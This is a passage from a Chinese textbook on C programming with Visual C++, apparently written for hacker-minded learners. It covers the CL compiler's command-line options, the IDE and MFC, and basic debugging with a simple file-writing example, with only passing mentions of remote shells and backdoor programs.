

图 1.10

“设置好后，我们在 C 盘下运行 CL file.c，其中 file.c 就是我们前面编写的输出文件的程序。就会显示一堆版权信息，最后提示生成了 file.obj 和 file.exe。”

“我们运行 file.exe，就会生成 test.txt，其内容为‘Hello C!’，如图 1.11。”



图 1.11

“哦！果然编译成功！”

“除了像这样编译外，CL 还可以带很多参数，以实现不同的编译选项。在 DOS 下输入 CL -? 就可以看见详细的帮助信息。参数的解释如下。”

#### 微软 C/C++ 编译器选项

##### 优化

- `/O1`：最小化空间
- `/Op[-]`：改善浮点数一致性
- `/O2`：最大化速度
- `/Os`：优选代码空间
- `/Oa`：假设没有别名
- `/Ot`：优选代码速度
- `/Ob<n>`：内嵌展开（默认 n=0）
- `/Ow`：假设交叉函数别名
- `/Od`：禁用优化（默认值）
- `/Ox`：最大化选项（/Ogityb2 /Gs）
- `/Og`：启用全局优化
- `/Oy[-]`：启用框架指针省略
- `/Oi`：启用内部函数

##### 代码生成

- `/G3`：为 80386 进行优化
- `/GH`：启用 _pexit 函数调用
- `/G4`：为 80486 进行优化
- `/GR[-]`：启用 C++ RTTI
- `/G5`：为 Pentium 进行优化
- `/GX[-]`：启用 C++ EH（与 /EHsc 相同）
- `/G6`：为 PPro、P-II、P-III 进行优化
- `/EHs`：启用 C++ EH（无 SEH 异常）
- `/GB`：为混合模型进行优化（默认）
- `/EHa`：启用 C++ EH（w/ SEH 异常）
- `/Gd`：__cdecl 调用约定
- `/EHc`：外部 “C” 默认为 nothrow
- `/Gr`：__fastcall 调用约定
- `/GT`：生成纤维安全 TLS 访问
- `/Gz`：__stdcall 调用约定
- `/Gm[-]`：启用最小重新生成
- `/GA`：为 Windows 应用程序进行优化
- `/GL[-]`：启用链接时代码生成
- `/Gf`：启用字符串池
- `/QIfdiv[-]`：启用 Pentium FDIV 修复
- `/GF`：启用只读字符串池
- `/QI0f[-]`：启用 Pentium 0x0F 修复
- `/Gy`：分隔链接器函数
- `/QIfist[-]`：使用 FIST 而不是 ftol()
- `/GZ`：启用堆栈检查（/RTCs）
- `/RTC1`：启用快速检查（/RTCsu）
- `/Ge`：对所有函数强制堆栈检查
- `/RTCc`：转换为较小的类型检查
- `/Gs[num]`：控制堆栈检查调用
- `/RTCs`：堆栈帧运行时检查
- `/GS`：启用安全检查
- `/RTCu`：未初始化的本地用法检查
- `/Gh`：启用 _penter 函数调用
- `/clr[:noAssembly]`：为公共语言运行时库编译；`noAssembly` 不产生程序集

##### 输出文件

- `/Fa[file]`：命名程序集列表文件
- `/Fo<file>`：命名对象文件
- `/FA[sc]`：配置程序集列表
- `/Fp<file>`：命名预编译头文件
- `/Fd[file]`：命名 .PDB 文件
- `/Fr[file]`：命名源浏览器文件
- `/Fe<file>`：命名可执行文件
- `/FR[file]`：命名扩展 .SBR 文件
- `/Fm[file]`：命名映射文件

##### 预处理器

- `/AI<dir>`：添加到程序集搜索路径
- `/Fx`：将插入的代码合并到文件
- `/FU<file>`：强制使用程序集/模块
- `/FI<file>`：命名强制包含文件
- `/C`：不抽出注释
- `/U<name>`：移除预定义宏
- `/D<name>{=|#}<text>`：定义宏
- `/u`：移除所有预定义宏
- `/E`：预处理到 stdout
- `/I<dir>`：添加到包含搜索路径
- `/EP`：预处理到 stdout，没有 `#line`
- `/X`：忽略“标准位置”
- `/P`：预处理到文件

##### 语言

- `/Zi`：启用调试信息
- `/Zl`：忽略 .OBJ 中的默认库名
- `/ZI`：启用“编辑并继续”调试信息
- `/Zg`：生成函数原型
- `/Z7`：启用旧式调试信息
- `/Zs`：只进行语法检查
- `/Zd`：仅有符号调试信息
- `/vd{0|1}`：禁用/启用 vtordisp
- `/Zp[n]`：在 n 字节边界上包装结构
- `/vm<x>`：指向成员的指针类型
- `/Za`：禁用扩展（暗指 /Op）
- `/noBool`：禁用 “bool” 关键字
- `/Ze`：启用扩展（默认）
- `/Zc:arg1[,arg2]`：C++ 语义一致性，这里的参数可以是：forScope——对范围规则强制使用标准 C++；wchar_t——wchar_t 是本机类型，不是 typedef

##### 杂项

- `@<file>`：选项响应文件
- `/wo<n>`：发出一次警告 n
- `/?` `/help`：打印此帮助消息
- `/w<l><n>`：为 n 设置警告等级 1-4
- `/c`：只编译，不链接
- `/W<n>`：设置警告等级（默认 n=1）
- `/H<num>`：最大外部名称长度
- `/Wall`：启用所有警告
- `/J`：默认 char 类型是 unsigned
- `/Wp64`：启用 64 位端口定位警告
- `/nologo`：取消显示版权消息
- `/WX`：将警告视为错误
- `/showIncludes`：显示包含文件名
- `/WL`：启用单行诊断
- `/Tc<source file>`：将文件编译为 .c
- `/Yc[file]`：创建 PCH 文件
- `/Tp<source file>`：将文件编译为 .cpp
- `/Yd`：将调试信息放在每个 .OBJ 中
- `/TC`：将所有文件编译为 .c
- `/Yl[sym]`：为调试库插入 PCH 引用
- `/TP`：将所有文件编译为 .cpp
- `/Yu[file]`：使用 PCH 文件
- `/V<string>`：设置版本字符串
- `/YX[file]`：自动 PCH
- `/w`：禁用所有警告
- `/Y-`：禁用所有 PCH 选项
- `/wd<n>`：禁用警告 n
- `/Zm<n>`：最大内存分配（默认为 %）
- `/we<n>`：将警告 n 视为错误

##### 链接

- `/MD`：与 MSVCRT.LIB 链接
- `/MDd`：与 MSVCRTD.LIB 调试库链接
- `/ML`：与 LIBC.LIB 链接
- `/MLd`：与 LIBCD.LIB 调试库链接
- `/MT`：与 LIBCMT.LIB 链接
- `/MTd`：与 LIBCMTD.LIB 调试库链接
- `/LD`：创建 DLL



“比如，我们作空间优化，加入 /O1 参数；与 MSVCRT.LIB 相连，加入 /MD 参数，就输入 CL file.c /O1 /MD，如图 1.12。”



图 1.12

## 小结

“我们单独使用 VC 的编译器，在 DOS 命令行下编译程序，有什么优势呢？”小菜们边看帮助信息边问道。

“最大的好处是可以写一些脚本，来定时自动地编译程序和链接程序。这样程序员可以在白天编程，晚上计算机会自动编译链接程序，这在工程很大时非常实用。”老师回答道，“二是当远程 telnet 得到对方 cmd shell 时，只能执行 DOS 命令，我们也只能使用 CL 程序来实现编译和链接源文件了！”

“哦，对啊！”大家恍然大悟，连连点头。

“所以，基于这两点，相比图形界面的程序，DOS 命令行的程序更为顺手，当然更为黑客们所喜爱。”

### 1.5.2 IDE 界面

VC 的第二个主要功能是提供图形化的编程界面。首先，VC 是一个很好的编译器。在 VC 中对 C 和 C++ 文件进行编辑时，它可以自动识别语言的关键字并标识出来。选择菜单上的“文件→打开”，弹出打开文件对话框，如图 1.13。



图 1.13

可以看到，VC 不仅可以打开 txt 文件、C/C++ 文件，也可以打开二进制文件并加以修改。VC 的编辑功能不亚于任何一款文字处理程序。

其次，在开发中，VC 可以智能地把文件按物理位置和逻辑功能加以组织，包括类视图、资源视图和文件视图，如图 1.14，大大方便程序员对工程的开发。



图 1.14

第三，方便设置编译和链接的参数，方便使用。直接使用 CL 编译程序对初学者很麻烦，集成进去，只用点几个菜单就可以了，方便入门的初学者。要修改设置，选择“工程→设置”，在 link 面板下，可以看到诸多的选项，如图 1.15。



图 1.15

而这些选项的意义，在刚才的编译器一节中有详细的列表。

### 1.5.3 MFC 编程接口

VC 除了编译器和集成文件编辑器外，最大的特征是提供了 MFC 编程接口，这是和一般 C/C++ 编译器最大的不同之处。

上面讲过，MFC 是微软基础类库，是为了方便程序员开发 Windows 程序而提供的。它采用了面向对象的思想，本身用 C++ 语言完成。

在安装了 VC 后，会在 VC 安装目录的 VC98\MFC\Include 和 VC98\MFC\SRC 下出现 MFC 的头文件和源代码，如图 1.16。

> “这样就可以使用 MFC 进行开发了。但黑客网络工具的编程，特别是后门通信程序，不会更多地使用 MFC，因为使用 MFC 后，会有很多冗余的代码，生成的文件会变得很大，效率不高。所以我们就不进一步地介绍 MFC 了，而是立足于根本——网络编程上。”



图 1.16

## 1.6 在 VC 中进行调试

“编写程序，尤其是编写较复杂的程序，一般都不会一次就编写成功。可能会有语法或逻辑上的错误。”

“语法上的错误，编译器可以帮我们发现并给我们提示；但逻辑上的错误，编译器就没办法帮我们识别了。逻辑上的错误表现出的效果只是程序达不到我们预想的功能。”

“哦，那怎么解决呢？”小菜们问道。

“要解决问题，首先要发现问题所在，而要发现问题所在的地方，就一定要使用调试这个工具。”

“程序不是写出来的，是调出来的。”老师说道，“这句话很有道理。我们看看在 VC 中如何进行调试。”

### 1.6.1 VC 中调试方法简介

最简单和原始的调试方法，是在程序中嵌入一些打印语句，将一些关注的变量值打印出来。比如，在前面那个 C 语言例子中，加入一句 `printf("0x%x", fp);` 打印出文件指针的值，看这个程序 fileprint.c 如下。

```c
#include <stdio.h> /*头文件*/
int main()    /*程序入口*/
{
    FILE *fp;    /*文件指针*/
    char output[] = "Hello,C!"; /*输出内容*/
    printf("0x%x\n", fp);       /*调试打印*/
    fp = fopen("text.txt", "w"); /*打开文件*/
    printf("0x%x\n", fp);       /*调试打印*/
    fprintf(fp, "%s", output);  /*往文件写入内容*/
    fclose(fp);   /*关闭文件*/
    return 0;     /*退出程序*/
}
```

运行这个带有打印调试信息的程序，结果如图 1.17。

可以看到，在打开文件之前，文件指针 fp 的 16 进制位为 `0xCCCCCCCC`，显然不是有效的值，这是因为 VC 编译器会将堆栈里未初始化的内存以 `0xCC` 直接填充，所以没给 fp 作赋值操作前，fp 的值就会为 `0xCCCCCCCC`；而在打开文件操作 `fp = fopen("text.txt", "w");` 之后，fp 的值变为了 `0x423af0`，为一个有效值，就可以正常地在里面写入东西了。



图 1.17

VC 编译器对不同分配的变量值有不同的初始化填充方式。在调试版本里，堆里未被初始化的内存被 `0xCD` 字节模式填充，堆里释放的内存被 `0xDD` 字节模式填充，堆栈里未被初始化的内存被 `0xCC` 字节模式填充。测试版本和发布版本里，未被初始化的全局内存都被初始化为 0。所以，如果忘记给变量赋初值就直接使用，是件很危险的事情，很有可能使程序崩溃。

这种打印的方法在时间比较紧、需要寻找快速解决方案的时候有很大的用处。比如，在 ACM/ICPC（国际大学生程序设计竞赛）的时候，三人共用一台机器，当需要排错时，可以用这种方法打印出一定的调试信息离机检查，而空出机器给队友使用；当程序测试时，发现效率不高，还可以用这种方法打印出执行某段语句所用的时间，以迅速找到耗时不正常的地方并修改。

类似打印的方法，MFC 提供了一些打印判断信息的方式，比如 TRACE() 等。但一般意义上的调试，还是操作程序一步一步地运行，或者在感兴趣处中断，我们可以在这个过程中方便地查看各个变量取值的变化。

> 老师说道：“微软的东西不一定是最好的，但一定是最好用的。在 VC 中调试也是如此。我们还是用刚才那个 C 程序为例子来演示在 VC 中调试的方法吧。”程序编译好后，按 F10，就会进入调试状态，如图 1.18。



图 1.18

继续按 F10，程序就会一句一句地执行，指针也会单步下移。为了方便看变量值的变化，我们可以点击 debug 工具栏上的 watch 按钮，在出现的 watch 框中输入要看的变量值 fp，就可以直接看到 fp 的值为 0xcccccccc，如图 1.19。

